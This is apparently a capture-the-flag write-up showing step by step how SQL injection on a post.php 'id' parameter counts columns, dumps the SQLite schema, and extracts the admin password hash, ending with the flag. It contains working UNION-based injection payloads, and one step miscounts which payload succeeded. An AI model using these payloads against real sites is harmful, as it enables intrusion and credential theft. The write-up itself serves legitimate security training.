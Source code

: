 The /post.php page is vulnerable to SQL injection.

Step-by-Step Exploitation

1. Identifying the Vulnerability:
- The vulnerability allows us to inject SQL commands through the `id` parameter of the `post.php` page.


Whenever the vulnerability is identified, we can try a few SQLi payloads to identify the number of columns of the initial SQL request we are injecting into : 
http://localhost/post.php?id=-1 UNION ALL SELECT NULL
http://localhost/post.php?id=-1 UNION ALL SELECT NULL,NULL
http://localhost/post.php?id=-1 UNION ALL SELECT NULL,NULL,NULL
http://localhost/post.php?id=-1 UNION ALL SELECT NULL,NULL,NULL,NULL

When injecting the 3rd payload, there are no errors anymore. This lets us know that there are 4 columns in the first request. (id, created_at, title, content)

2. Retrieving the Table Structure:
- To understand the database schema, we can exploit the vulnerability to retrieve the structure of the `user` table.
- The following URL is used:

http://localhost/post.php?id=-1 UNION ALL SELECT NULL,NULL,sql,NULL FROM sqlite_master

- Here, we use the `UNION ALL` statement to combine the results of two queries: the original one and our injected one. The injected query selects columns from `sqlite_master`, which holds the schema information of the database.

3. Retrieving the Admin Hash:
- To retrieve the hash of the admin user, we inject another SQL query:

http://localhost/post.php?id=-1 UNION ALL SELECT NULL,NULL,username,password FROM users

This returns the user called `user` and his hash. We are not interested by this hash, we want the admin's hash.

http://localhost/post.php?id=-1 UNION ALL SELECT NULL,NULL,username,password FROM users LIMIT 1 OFFSET 1

- This query targets the `users` table and selects the `username` and `password` columns. The `LIMIT 1 OFFSET 1` clause is used to skip the first row and fetch the second row (because the first row corresponds to the user `user`).

4. Extracting the Hash:
- The result of the above query reveals the hash of the admin user:

bf4776ba55b41ae54b00fc2fee111562

- Consequently, the flag for the CTF challenge is:

FSIIECTF{bf4776ba55b41ae54b00fc2fee111562}
